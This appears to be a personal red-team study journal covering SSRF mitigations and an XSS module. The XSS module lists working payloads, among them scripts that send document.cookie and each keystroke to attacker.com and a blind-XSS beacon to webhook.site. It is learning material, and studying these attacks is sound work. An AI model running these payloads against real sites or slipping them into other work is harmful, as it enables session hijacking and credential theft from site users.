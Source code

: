 ```bash

🔧 MITIGATIONS UNDERSTOOD
Network segmentation and egress filtering

Input validation with allowlisting

Cloud metadata service protection

Web Application Firewall (WAF) rules

🚀 PROGRESSION IN RED TEAM SKILL MATRIX
✅ Network Security
✅ Web Application Security
✅ Cloud Security ← SSRF ADDED
◽ Active Directory Exploitation
◽ Advanced Persistence Techniques

OPERATIONAL NOTES: SSRF represents one of the most powerful web vulnerabilities for Red Team operations, enabling complete bypass of network perimeter defenses and direct access to internal infrastructure and cloud environments.

# Red Monster Journey 🐲 
## Cross-Site Scripting (XSS) Mastery

### 🎯 MODULE COMPLETION: XSS ATTACKS
**Status:** Mastered ✅
**Red Team Application:** Client-Side Compromise & Session Hijacking

### 🔴 XSS TRADECRAFT DOCUMENTATION

#### 📊 VULNERABILITY OVERVIEW
XSS vulnerabilities allow attackers to inject and execute malicious JavaScript in victims' browsers, enabling session theft, credential harvesting, and client-side attacks.

#### 🎲 EXPLOITATION TECHNIQUES MASTERED

##### XSS TYPES & DETECTION
```http
# Reflected XSS (Immediate Execution)
?search=<script>alert(1)</script>
?q=<img src=x onerror=alert(1)>

# Stored XSS (Persistent)
Comments: <script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
User Profiles: <svg onload=alert(1)>

# DOM-Based XSS (Client-Side)
document.write(location.hash.substring(1))
eval(URLSearchParams.get('payload'))

# Blind XSS (Delayed)
Support Forms: <script>fetch('http://webhook.site/ID')</script>
PAYLOAD INTENTIONS & DEVELOPMENT
javascript
// Proof of Concept
<script>alert('XSS')</script>
<svg onload=alert(1)>

// Session Stealing
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>

// Key Logging  
<script>document.onkeypress=function(e){fetch('http://attacker.com/log?key='+e.key)}</script>
```